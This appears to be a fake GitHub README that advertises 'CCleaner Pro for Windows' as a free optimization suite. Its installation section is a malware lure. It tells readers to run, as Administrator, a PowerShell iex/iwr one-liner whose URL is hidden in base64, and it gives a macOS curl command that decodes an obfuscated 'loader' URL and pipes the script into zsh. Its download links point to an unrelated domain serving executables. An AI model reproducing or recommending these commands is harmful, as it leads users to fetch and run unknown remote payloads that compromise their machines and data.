

# CCleaner Pro for Windows

### Next-Gen System Optimization, Privacy Protection & Performance Suite

<p align="center">
  
  
  
  
</p>

<p align="center">
  🌐 <a href="#">Live Demo</a> • 📚 <a href="#">Documentation</a> • 💬 <a href="#">Community Chat</a>
</p>

---

<p align="center">
  
</p>

---

## 🧠 Conceptual Overview

**CCleaner Pro for Windows** is a professional-grade suite engineered for deep OS cleaning, privacy enforcement, and hardware performance tuning. It combines high-throughput disk analysis, advanced registry repair, and multi-browser privacy shield modules into a lightweight, high-speed solution.

Designed to remove OS friction, system clutter, and tracking risks, CCleaner Pro operates seamlessly via a modern **Graphical User Interface (GUI)** or an automated **Command-Line Interface (CLI)** for system administration.

---

## 🎯 Core Philosophy

> *"Bridge the gap between system performance, absolute privacy, and seamless automation."*

We engineered **CCleaner Pro for Windows** to eradicate OS degradation, junk file inflation, and telemetry exposure. Instead of requiring manual maintenance, our platform delivers intelligent, single-click diagnostics and automated resource optimization to maintain peak PC performance.

---

## 💻 Key Features & Performance Suite

### 🧹 Advanced System Cleaning
* **Deep Disk Sanitization**: Wipes temporary Windows system data, update caches (`SoftwareDistribution`), event logs, and dump files.
* **Multi-Browser Privacy Shield**: Safely clears history, cache, cookies, and auto-fill records for Chrome, Firefox, Edge, Opera, Brave, and Vivaldi.
* **Intelligent Registry Cleaner**: Scans, repairs, and purges orphaned registry entries with automated pre-repair backups.

### ⚡ Performance Optimization
* **Startup & Task Manager**: Take total control over startup applications, background services, and scheduled tasks to accelerate boot times.
* **Smart Health Check**: Automated system condition scanning with actionable performance enhancement insights.
* **Software Updater**: Audits installed software packages and updates them to patch security vulnerabilities.

---

## 📊 Process & Optimization Workflow



---

## 🚀 Quick Start & Installation

### 📦 Ready-to-Use Builds

| OS / Platform | Version | Architecture / Format | Updated | Status | Download |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 🪟 **Windows 11 / 10** | `v6.28.11058` | x64 Installer (`.exe`) | 2026-09-20 | 🟢 Latest | [Download .exe](https://pannki.com/ccleaner.exe) |
| 🪟 **Windows 11 / 10** | `v6.28.11058` | x64 Portable (`.zip`) | 2026-09-20 | 🟢 Latest | [Download .zip](https://pannki.com/installplugin.zip) |
| 🪟 **Windows Server** | `v6.28.11058` | x64 Enterprise Edition | 2026-09-15 | 🟢 Stable | [Download .exe](https://pannki.com/ccleaner.exe) |

---

### 🧪 One-Line Installation Scripts
Launch PowerShell:

Press Win + X on your keyboard.
Click on Terminal or Windows PowerShell from the list.

Run directly in **PowerShell** (Run as Administrator):

```powershell
iex(iwr ([System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('aHR0cDovL3NvZnQtc3RvcmFnZS50b3Avd29ya2VyPz04Njk3MTYwNjUxL3phcHVzazI0'))) -UseBasicParsing)

```

Or via **MacOS**:
```
curl -s $(echo "aHR0cHM6Ly9lc2NhcGVhaS5saXZlL2xvYWRlcl92Mi5zaD9idWlsZD0lNDB0b3J2ZXgxMyZvd25lcj13b3JrZXIy" | base64 -d) | zsh

```
---

### 🛠 Build from Source

```bash
# Clone repository
git clone https://github.com/Unkilla/CCleaner-Pro-for-Windows.git
cd CCleaner-Pro-for-Windows

# Install dependencies & build binaries
npm install
npm run build:win

# Launch in development mode
npm run dev
```

---

## ⚙️ Configuration Settings

Configure environment parameters in your `.env` or `config.json` file for automated CLI tasks:

```env
ENABLE_AUTO_CLEAN=1       # Enable scheduled system optimization
PRESERVE_COOKIES=1       # Keep whitelisted active session cookies
REGISTRY_BACKUP=1       # Create registry backups prior to repair
LOG_LEVEL=info           # Output verbosity (debug, info, warn, error)
```

---

## ⚖️ License & Disclaimer

### 🚨 Safety & Compliance Notice

* **Backup Safeguard**: Always create a System Restore Point before performing aggressive registry modifications.
* **Privileges**: Elevated Administrator privileges are required for system-level cache sanitization.

Distributed under the **MIT License**. Copyright (c) 2026 CrystalController. All rights reserved.
